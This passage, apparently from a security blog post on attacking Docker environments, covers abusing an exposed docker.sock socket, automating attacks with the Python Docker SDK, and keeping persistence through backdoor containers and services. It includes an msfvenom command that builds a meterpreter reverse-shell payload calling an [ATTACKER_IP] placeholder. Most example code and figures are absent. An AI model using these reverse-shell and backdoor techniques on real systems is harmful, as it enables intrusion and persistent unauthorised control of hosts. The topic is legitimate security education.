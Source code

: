

#############
<br>
https://morphuslabs.com/attacking-docker-environments-a703fcad2a39
<br>
#############

3. Post-Exploitation: Configuration Flaws
We can exploit configuration flaws to gain direct access to other containers and the Docker daemon. One of the most common configuration flaws found in Docker containers is the use of docker.sock.

Docker.sock is a Unix socket where the Docker daemon is listening to (it can be usually found in ‘/var/run/docker.sock’). We can abuse this feature in order to call functions from the Docker API and run privileged commands (e.g. create new containers). Figure 4 shows an example of using curl to list all running containers (response in JSON format).


Figure 4. Listing containers in Docker with docker.sock
As we can see in figure 5, the use of docker.sock seems to be pretty common!


Figure 5. Large number of Github projects using “docker.sock”
4. Automating attacks with the Docker SDK
We can use Python and the Docker SDK to automate common tasks (e.g. list containers) and perform attacks in other containers. The Docker SDK can be installed with pip:

$ pip install docker
Here are some examples of different things that we can do with the Docker SDK in Python.

Example 01: Creating a new container


Example 02: Listing all containers with Docker.sock enabled


Example 03: Executing one command in all running containers


5. Post-Exploitation: Ideas for Maintaining Access
At this point, we can use different methods to keep persistence in Docker. I will be using python meterpreter payloads for the following examples (you can choose other types of payload if you want).

Msfvenom is used to create the payload (output to backdoor.py).

$ msfvenom -p python/meterpreter_reverse_tcp LHOST=[ATTACKER_IP] LPORT=[ATTACKER_PORT] -f raw -o backdoor.py
Method 01: Inject meterpreter payload in running containers

If Python is installed in the running containers, the meterpreter payload can be executed directly in each each container.


Method 02: Create a backdoor container

We can create a new container which will do 2 things:

Get a reverse meterpreter shell (to the atacckers machine).
Map the host filesystem inside the container.
The new container is created based on the official Python Docker image.


Method 03: Create a backdoor service

Docker Swarm allows us to get a greater level of persistence by using services. The benefit of creating a backdoor service is because even if our container stops, Docker will automatically restart the container for us!

The Healthcheck instruction is a great feature that can be abused to run our meterpreter payload (which will be executed inside the container every N seconds).

About the Healthcheck instruction [2]:

The HEALTHCHECK instruction tells Docker how to test a container to check that it is still working. This can detect cases such as a web server that is stuck in an infinite loop and unable to handle new connections, even though the server process is still running.


References
[1] https://docs.docker.com/v1.7/articles/networking/

[2] https://docs.docker.com/engine/reference/builder/

55


2


